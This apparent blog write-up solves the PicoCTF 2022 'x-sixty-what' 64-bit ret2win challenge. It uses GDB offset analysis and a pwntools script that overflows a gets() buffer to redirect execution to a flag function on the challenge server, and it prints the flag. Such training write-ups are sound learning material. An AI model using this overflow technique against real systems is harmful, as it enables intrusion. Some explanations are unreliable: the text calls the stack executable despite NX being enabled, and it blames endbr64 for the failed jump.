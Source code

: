 ```yaml
---
layout: single
title:  "PicoCTF 2022 - x-sixty-what"
categories: 
  - PicoCTF
  - Binary Exploitation
tags:
  - ctf
  - picoctf
toc: true
toc_label: "Contents"
toc_icon: "list"  # corresponding Font Awesome icon name (without fa prefix)
---
```


Another ret2win challenge, but this deals with 64-bit binaries instead of 32-bit.

## My Solution
Let's take a look at the `vuln` binary. Using `file` and `checksec`, we observe the following:
```bash
$ file vuln
>> vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, 
BuildID[sha1]=8ba2226f06946bc75922ba6fb1919e6283162f22, for GNU/Linux 3.2.0, not stripped

$ checksec vuln                                                                     
[*] '.../vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
From this, we can observe that the file:
- is a 64-bit ELF file,
- is not stripped,
- has no PIE, and
- has very little protection in place (stack is executable, no stack canary).

Now, looking at `vuln.c`, we can note down some interesting features.
```c
...
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```
We can see that the provided file has a read buffer size of 64, and has a `flag()` function present. Like most binary exploitation challenges, the vulnerable `gets()` function is used here to retrieve user input. 

It appears that nothing is out of the ordinary here. We just need to note that this is a 64-bit binary, and we need to return to the `flag()` function to get our flag.

Now, let's use GDB to find the function addresses, and to determine the offset to RIP (not EIP, as this is a 64-bit binary).
```bash
$ gdb vuln
>> ...
gef➤ info functions
...
0x0000000000401236  flag
0x00000000004012b2  vuln
0x00000000004012d2  main
...
```
We observe that the address of `flag()` is `0x0000000000401236`.
```bash
gef➤ pattern create 150
[+] Generating a pattern of 150 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: /mnt/c/Users/Gamer/Downloads/PicoCTF/2022/blog/vuln
Welcome to 64-bit. Give me a string that gets you the flag:
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x00000000004012d1 in vuln ()
```
As expected, we receive a segmentation fault. To determine where our RIP offset is, let's look at the stack.
```bash
0x00007fffffffd658│+0x0000: "jaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapa[...]"    ← $rsp
0x00007fffffffd660│+0x0008: "kaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqa[...]"
...
```
Notice that the pattern "jaaaaaaaka..." is found at the top of the stack. If this value was a valid memory address, then it should be popped from the stack and passed to RIP. Therefore, the offset to RIP will also be the offset to RSP, as RSP points to this pattern.
```bash
pattern offset $rsp
[+] Searching for '6a61616161616161'/'616161616161616a' with period=8
[+] Found at offset 72 (little-endian search) likely
```
Thus, we have determined our offset to be 72 bytes. Additionally, we notice something interesting in the debugger. It appeared that the RIP doesn't get clobbered in this case, which is unlike what we've seen in 32-bit binaries.
```bash
$rip   : 0x00000000004012d1  →  <vuln+31> ret
```
Normally, we would've expected to see a bunch of 61s here. The reason for this is due to **canonical addressing** in x64 systems. Simply put, canonical addresses fall within a specific address size range. Addresses outside of this size range would be considered non-canonical, and will never be pushed into RIP. In this case, the maximum address size is 48 bits in length (or, 6 bytes). For us to control RIP, we will need to mask off the 2 most significant bytes from the 8 byte memory address of our `flag()` function.

To check this, let's generate a pattern of 78 bytes in length, and observe if RIP was clobbered.
```bash
gef➤  pattern create 78
[+] Generating a pattern of 78 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaa
[+] Saved as '$_gef5'
gef➤  r
Starting program: /mnt/c/Users/Gamer/Downloads/PicoCTF/2022/blog/vuln
Welcome to 64-bit. Give me a string that gets you the flag:
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x000061616161616a in ?? ()
...
$rip   : 0x61616161616a
```
Indeed, our RIP was clobbered with exactly 6 bytes of data.

We can now proceed to solve this challenge. Using Python 3 and pwntools:
```python
# solve.py

from pwn import *
# elf = ELF('./vuln') # for local execution
# p = process(elf.path) # for local execution
p = remote('saturn.picoctf.net', 49395) # for remote execution

# payload buffer
payload = b'A' * 72 # RIP offset
payload += p64(0x401236) # 0x0000000000401236

print(p.recvuntil(':'))
p.sendline(payload)
p.interactive()
```
However, in spite of the correct approach taken, this solution did not work, as I unexpectedly received a segmentation fault. If we refer to the challenge page on PicoCTF, we notice that this disclaimer was provided:
`Reminder: local exploits may not always work the same way remotely due to differences between machines.`

It appeared that entering the exact address of `flag()` does not work on all machines (explanation below!). To solve this challenge, I had to enter the address of a move instruction within the function instead.
`0x000000000040123b <+5>:     mov    rbp,rsp`

Making modifications to the Python script, we can now get the flag.
```python
...
payload = b'A' * 72 # RIP offset
payload += p64(0x40123b)
...
```
```bash
[+] Opening connection to saturn.picoctf.net on port 49395: Done
solve.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(p.recvuntil(':'))
b'Welcome to 64-bit. Give me a string that gets you the flag:'
[*] Switching to interactive mode

picoCTF{b1663r_15_b3773r_3e77a3f1}[*] Got EOF while reading in interactive
$
[*] Closed connection to saturn.picoctf.net port 49395
```

## Learning Takeaways
**Why did the program fail to call `flag()` when we loaded the address of flag into the payload?**
Let's disassemble `flag()`.
```bash
gef➤  disas flag
Dump of assembler code for function flag:
0x0000000000401236 <+0>:     endbr64
0x000000000040123a <+4>:     push   rbp
0x000000000040123b <+5>:     mov    rbp,rsp
0x000000000040123e <+8>:     sub    rsp,0x50
...
```
We notice that the function address points to a `endbr64` instruction. After doing some brief research, it seems that this is a form of ROP protection on Intel-based chips. In short, the presence of this instruction prevents attackers (like us) from directly manipulating return addresses of functions on the call stack, thus preventing us from calling `flag()`. 

To bypass this, we made the program jump to an instruction within `flag()` instead. There was some trial and error involved, but it seemed like jumping to the move instruction was the right approach.

Generally, we've learnt that x64 systems behave differently from x32. For instance, 32-bit systems can read off the stack directly, while 64-bit systems refer to registers on the stack, which makes manipulation of the call stack a bit more challenging. There's also the concept of canonical addresses which was mentioned above.

## References
- [John Hammond (YouTube): x64 ret2win - LINUX Buffer Overflow (PicoCTF 2022 #41 'x-sixty-what')](https://www.youtube.com/watch?v=eg0gULifHFI&list=PL1H1sBF1VAKUbRWMCzEBi61Z_7um7V5Sd&index=42)
- [64-bit Stack-based Buffer Overflow](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/64-bit-stack-based-buffer-overflow)
- [Exploiting Calling Conventions](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/exploiting-calling-conventions)
